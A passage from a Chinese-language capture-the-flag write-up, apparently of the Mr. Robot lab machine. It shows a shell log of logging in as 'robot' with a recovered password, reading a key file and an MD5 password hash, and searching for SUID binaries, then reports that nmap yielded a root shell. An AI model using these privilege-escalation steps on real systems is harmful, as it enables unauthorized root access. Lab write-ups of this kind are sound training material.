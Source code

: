 用得到的密码登录robot

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0115f2d1f50cd05687.png)

拿到第二个key，并且又拿到一个加密哈希，估计这个是root用户的密码

提升权限，但是没有成功，只能想别的办法

最后找到一个办法，用nmap执行root权限

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f7d7d85be0731e13.png)

nmap产生了一个root权限的新shell

[![](https://p1.ssl.qhimg.com/t012b93d8657a911a48.png)](https://p1.ssl.qhimg.com/t012b93d8657a911a48.png)

[![](https://p0.ssl.qhimg.com/t0111c699f76d42c06e.png)](https://p0.ssl.qhimg.com/t0111c699f76d42c06e.png)

代码如下：

```
daemon@linux:/$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@linux:/$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:/$ pwd
pwd
/
robot@linux:/$ cd /home
cd /home
robot@linux:/home$ ls
ls
robot
robot@linux:/home$ cd robot
cd robot
robot@linux:~$ ls
ls
key-2-of-3.txt password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
robot@linux:~$ find / -user root -perm -4000 2&gt;/dev/null
find / -user root -perm -4000 2&gt;/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
```